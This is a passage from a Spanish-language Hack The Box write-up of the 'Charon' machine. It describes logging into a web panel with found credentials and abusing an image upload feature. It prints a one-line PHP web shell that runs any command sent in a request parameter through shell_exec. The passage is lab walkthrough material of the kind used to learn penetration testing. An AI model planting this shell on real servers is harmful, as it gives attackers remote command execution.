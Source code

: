 Ya tenemos unas credenciales a probar, así que validaremos en el panel de login (**Nota**: Simpre guardar las credenciales que vayamos encontrando):

![""](/assets/images/htb-charon/charon-web6.png)

Aqui algo que ya nos llama la atención es que podemos super archivos y en específico, imágenes.

![""](/assets/images/htb-charon/charon-web7.png)

Vamos a tratar de subir un archivo php el cual nos ayude a ejecutar comandos a nivel de sistema.

```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
